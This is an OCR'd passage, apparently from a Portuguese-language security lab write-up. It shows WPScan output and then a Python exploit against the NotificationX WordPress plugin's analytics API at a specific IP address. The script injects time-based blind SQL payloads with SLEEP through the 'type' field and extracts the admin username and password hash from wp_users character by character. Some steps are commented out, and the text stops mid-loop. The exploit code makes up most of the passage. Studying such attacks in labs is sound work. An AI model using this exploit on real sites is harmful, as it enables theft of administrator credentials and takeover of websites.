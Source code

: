 \[+\] WPScan DB API OK  
 | Plan: free  
 | Requests Done (during the scan): 3  
 | Requests Remaining: 22

\[+\] Finished: Tue Dec  3 00:05:47 2024  
\[+\] Requests Done: 7  
\[+\] Cached Requests: 40  
\[+\] Data Sent: 1.857 KB  
\[+\] Data Received: 49.712 KB  
\[+\] Memory used: 251.242 MB  
\[+\] Elapsed time: 00:00:04  
rodri@DESKTOP-2VSGICH:\~/fsi/sqlmap-dev$

### Código usado para realizar o exploit

```

`import requests`  
`import string`  
`from sys import exit`

`# Sleep time for SQL payloads`  
`delay = 100`

`# URL for the NotificationX Analytics API`  
`url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"`

`# admin_username = ""`  
`admin_password_hash = ""`

`session = requests.Session()`

`# # Find admin username length`  
`# username_length = 0`  
`# for length in range(1, 41):  # Assuming username length is less than 40 characters`  
`#     resp_length = session.post(url, data={`  
`#         "nx_id": 1337,`  
``#         "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"``  
`#     })`

`#     # Elapsed time > delay if delay happened due to SQLi`  
`#     if resp_length.elapsed.total_seconds() > delay:`  
`#         username_length = length`  
`#         print("Admin username length:", username_length)`  
`#         break`

`# # Find admin username`  
`# for idx_username in range(1, username_length + 1):`  
`#     # Iterate over all the printable characters + NULL byte`  
`#     for ascii_val_username in (b"\x00" + string.printable.encode()):`  
`#         # Send the payload`  
`#         resp_username = session.post(url, data={`  
`#             "nx_id": 1337,`  
``#             "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"``  
`#         })`

`#         # Elapsed time > delay if delay happened due to SQLi`  
`#         if resp_username.elapsed.total_seconds() > delay:`  
`#             admin_username += chr(ascii_val_username)`  
```